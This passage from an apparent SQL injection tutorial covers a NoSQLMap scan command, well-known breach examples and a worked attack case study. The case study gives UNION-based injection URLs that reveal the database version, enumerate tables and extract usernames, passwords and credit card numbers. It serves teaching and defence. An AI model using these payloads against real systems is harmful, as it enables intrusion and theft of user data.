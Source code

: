 ### NoSQLMap

For applications using NoSQL databases like MongoDB, NoSQLMap provides similar functionality to SQLmap:

```bash
# Basic scan
python nosqlmap.py --scan MongoDB --target www.target.com --port 27017
```

## Real-World Impact of SQL Injection

The consequences of SQL injection vulnerabilities can be devastating:

### Data Breaches

SQL injection has led to numerous high-profile data breaches:
- The 2008 Heartland Payment Systems breach exposed 134 million credit card numbers
- The 2009 breach of RockYou exposed 32 million user credentials
- The 2015 Ashley Madison breach revealed sensitive information about 37 million users

### Business Impact

Beyond the immediate technical damage, businesses face:
- Loss of customer trust
- Regulatory fines (especially under GDPR, CCPA, etc.)
- Remediation costs
- Legal liabilities
- Brand damage

### Case Study: Example Attack Flow

Consider an e-commerce application with a product search feature:

1. **Discovery**: An attacker notices the URL includes a parameter: `https://shop.example.com/products?category=electronics`

2. **Testing**: The attacker modifies the URL to: `https://shop.example.com/products?category=electronics'`
   The application returns a database error, confirming vulnerability.

3. **Information Gathering**:
   `https://shop.example.com/products?category=electronics' UNION SELECT 1,version(),database(),4,5 -- -`
   This reveals the database version and name.

4. **Schema Enumeration**:
   `https://shop.example.com/products?category=electronics' UNION SELECT 1,table_name,column_name,4,5 FROM information_schema.columns -- -`
   The attacker discovers a `users` table with `username`, `password`, and `credit_card` columns.

5. **Data Extraction**:
   `https://shop.example.com/products?category=electronics' UNION SELECT 1,username,password,credit_card,5 FROM users -- -`
   The attacker extracts all user credentials and credit card numbers.
